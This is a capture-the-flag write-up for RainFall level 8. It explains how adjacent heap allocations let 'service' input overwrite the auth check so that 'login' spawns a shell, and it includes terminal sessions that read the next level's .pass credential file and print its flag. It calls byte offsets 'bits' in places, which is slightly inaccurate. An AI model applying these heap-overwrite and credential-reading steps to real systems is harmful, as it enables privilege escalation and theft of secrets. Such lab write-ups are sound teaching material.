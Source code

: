 # Level 8

## Analysis

Running our executable prints a '(nil), (nil)', if we try to write anything to stdin, it prints the same thing.

However, when can input two magic words: `auth ` and `service` to get the following result:
```bash
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service 
0x804a008, 0x804a018 
```

After taking a look at the [decomp](./resources/level8_decomp.c), we noticed that these correspond to two globals addresses: `printf("%p, %p \n",auth,service);`.

Another check later which is the most interesting is this one:

```c
if (auth[8] == 0) {
    fwrite("Password:\n",1,10,stdout);
}
else {
    system("/bin/sh");
}
```

This code is triggered when using the `login` keyword during program execution.

`auth` is allocated using a malloc `auth = (undefined4 *)malloc(4);`, it has a size of 32 and is used later in an strcpy call: `strcpy((char *)auth,local_8b);`

While `service` is allocated using an strdup: `service = strdup(acStack_89);`.

## Exploit 1

What we see during the execution and after inputting both `auth ` then `service`, is that the two memory addresses that the program prints are near each other being allocated one after the other.

This can lead to both exploits we found. Both of them rely on the fact that password check happens to only look at the 32nd bit of `auth` (`if (auth[8] == 0)`).

If we could do something to NOT pass this check, we could get to the second branch and spawn a shell.

Here's a diagram to visualize the memory layout:

```  
  First auth allocation   First Service allocation
|_______________________|__________________________|____________________|
        Auth                     Service             ^
                                                Verification
```

### Using the commands

Both addresses being near means we can use `service` to overwrite the bit at `auth + 32`, indeed if we type the `service` command another time, we get this output:

```bash
level8@RainFall:~$ ./level8   
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service
0x804a008, 0x804a028
```

<details>
    <summary>Spoilers</summary>

What's interesting is that the second address, `service`'s one, happens to be 32 bits after `auth`'s one. Which means that the content at `auth + 32` is no longer equal to 0. Indeed, when trying to run the "login" command after that, we are prompted with the shell, and then we can get the password!

And here are the steps:

```bash
level8@RainFall:~$ ./level8   
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
$ 
```
</details>

## Exploit 2

Using the same principle as above, we can use the commands to bypass the check using another method. 

Instead of incrementing the address two times as we did before, we can also input 32 character after the command to overwrite the 32nd bit:

<details>
    <summary>Spoilers</summary>

```bash
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service1234567890123456789123456
0x804a008, 0x804a018 
login
$ whoami
level9
```
</details>
